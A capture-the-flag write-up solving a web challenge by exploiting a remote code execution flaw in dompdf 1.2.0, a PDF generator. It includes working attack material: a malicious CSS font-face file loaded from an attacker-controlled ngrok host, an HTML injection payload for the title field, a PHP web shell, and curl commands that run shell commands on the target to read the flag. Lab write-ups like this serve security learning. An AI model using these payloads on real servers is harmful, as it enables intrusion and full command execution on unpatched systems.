



# Whoever Keeps Trying It, Gets It

## Description

Professor is about to get caught. Use the evidence log system to remove any evidence traces leading back to professor. Help him and he will return the favor.

## Solution

Browse to given URL.



`Evidence Book` menu option redirects us to `book.php`. 



Inputting the required fields it creates a PDF file. 



Let's download PDF and examine the metadata to know more about how it generated. 

```bash
exiftool export.pdf 
ExifTool Version Number         : 12.04
File Name                       : export.pdf
Directory                       : .
File Size                       : 1350 bytes
File Modification Date/Time     : 2022:04:22 08:01:11-04:00
File Access Date/Time           : 2022:04:22 08:01:11-04:00
File Inode Change Date/Time     : 2022:04:22 08:01:23-04:00
File Permissions                : rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.7
Linearized                      : No
Page Count                      : 1
Producer                        : dompdf 1.2.0 + CPDF
Create Date                     : 2022:04:22 12:01:06+00:00
Modify Date                     : 2022:04:22 12:01:06+00:00
```

This reveals `Producer` field having name and version of the utility. Here it is `dompdf 1.2.0`. Quick google search on this version yields the links to a [repository](https://github.com/positive-security/dompdf-rce) which explaining the vulnerability and how to exploit. 

Stand up a ngrok http server.

```bash
ngrok http 80
sudo python3 -m http.server 80
```

Modify the files accordingly. 

**exploit.css**

```css
@font-face {
    font-family:'exploitfont';
    src:url('http://6f70-103-220-81-241.ngrok.io/exploit_font.php');
    font-weight:'normal';
    font-style:'normal';
  }
```

Submit the below payload in title field. 

```html
<link rel=stylesheet href='http://6f70-103-220-81-241.ngrok.io/exploit.css'>
```

We get two requests on the listener for both the CSS and PHP files. 

```bash
sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
127.0.0.1 - - [22/Apr/2022 08:07:00] "GET /exploit.css HTTP/1.1" 200 -
127.0.0.1 - - [22/Apr/2022 08:07:00] "GET /exploit_font.php HTTP/1.1" 200 -
```

This should create a php file in `dompdf/lib/fonts` folder. Let's see if directory listing is enabled on the site to find the file. 

```bash
curl http://3.23.94.118:9003/dompdf/lib/fonts/ -s | grep exploit
<li><a href="exploitfont_normal_9cdf31bf040248e0079346bc531c52b2.php"> exploitfont_normal_9cdf31bf040248e0079346bc531c52b2.php</a></li>
<li><a href="exploitfont_normal_9cdf31bf040248e0079346bc531c52b2.ufm"> exploitfont_normal_9cdf31bf040248e0079346bc531c52b2.ufm</a></li>
```

The php file is present. Browsing to it confirms the vulnerability. 


Modify php file to get command execution with below line. 

```php
<?php system($_GET['c']);?>
```

It fails to load the php file. Could be that due to dompdf cache issue. Rename css and php files to other new name. Triggering the exploit again works. 

```bash
curl -s http://3.23.94.118:9003/dompdf/lib/fonts/exploitfont_normal_f5a0ae4fd5c958ba15b8038b71713e4b.php?c=id --output result;cat result | tail -1
uid=100(apache) gid=101(apache) groups=82(www-data),101(apache),101(apache)
```

Flag is present in `/`.

```bash
curl -s http://3.23.94.118:9003/dompdf/lib/fonts/exploitfont_normal_f5a0ae4fd5c958ba15b8038b71713e4b.php?c='cat+/flag.txt' --output result;cat result | tail -1
ACVCTF{g0nn4_g3l_th3m_4ll}
```

